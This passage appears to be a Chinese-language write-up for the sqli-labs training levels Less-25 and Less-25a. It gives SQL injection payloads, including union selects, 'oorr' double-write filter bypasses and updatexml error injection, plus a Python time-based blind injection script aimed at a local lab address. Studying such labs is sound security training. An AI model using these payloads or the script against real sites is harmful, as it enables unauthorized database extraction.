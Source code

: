 这题可以直接联合查询

```sql
?id=0' union select 1,2,3%23
```

![50](/medias/sqli-labs/50.png)

考察双写绕过

```sql
?id=0' oorr updatexml(1,concat(0x7e,user(),0x7e),1)%23
```

![51](/medias/sqli-labs/51.png)


## Less-25a

整型注入，过滤了`or`、`and`

测试发现单双引号不会报错，报错注入不可行，可以使用联合查询，测试过程

```sql
?id=0 union select 1,2,3#
```

题目名称提示使用`or`、`and`盲注，写个脚本试试


```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-25a/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        # 爆库
        id = "0 oorr if((substr((select group_concat(schema_name) from infoorrmation_schema.schemata)," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        # 爆表
        # id = "0 oorr if((substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        # 爆字段
        # id = "0 oorr if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        tmp_url = url + "?id=" + id
        start = time.time()
        resp = requests.get(tmp_url)
        end = time.time()
        if end - start > 0.1:
            flag += s
            # 当盲注出正确字符时，才去盲注下一位(变量i的作用)
            i += 1
            print(f"[#]------result: {flag}")
            break
        elif end - start > 2:
            print("跑了这么久，跑完了吗？跑完我给你停了🤓👍")
            exit()
        else:
            pass
```